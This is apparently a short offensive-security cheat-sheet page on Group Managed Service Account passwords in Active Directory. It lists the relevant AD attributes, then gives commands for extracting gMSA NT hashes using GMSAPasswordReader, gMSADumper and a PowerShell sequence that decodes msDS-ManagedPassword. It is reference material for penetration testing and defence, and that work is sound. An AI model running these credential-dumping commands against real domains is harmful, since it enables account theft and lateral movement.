 # GSMA Passwords

{% hint style="info" %}
User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.
{% endhint %}

## <mark style="color:red;">**GMSA Attributes in the Active Directory**</mark>

* **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) - stores the security principals that can access the GMSA password.
* **msds-ManagedPassword** - This attribute contains a BLOB with password information for group-managed service accounts.
* **msDS-ManagedPasswordId** - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* **msDS-ManagedPasswordInterval** - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

### <mark style="color:orange;">**Extract NT hash from the Active Directory**</mark>

GMSAPasswordReader (C#)

```
# https://github.com/rvazarkar/GMSAPasswordReader
GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
```

[gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)

```
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

Active Directory Powershell

```
$gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
$blob = $gmsa.'msDS-ManagedPassword'
$mp = ConvertFrom-ADManagedPasswordBlob $blob
$hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```

[gMSA\_Permissions\_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa\_permissions\_collection-ps1) based on Active Directory PowerShell module
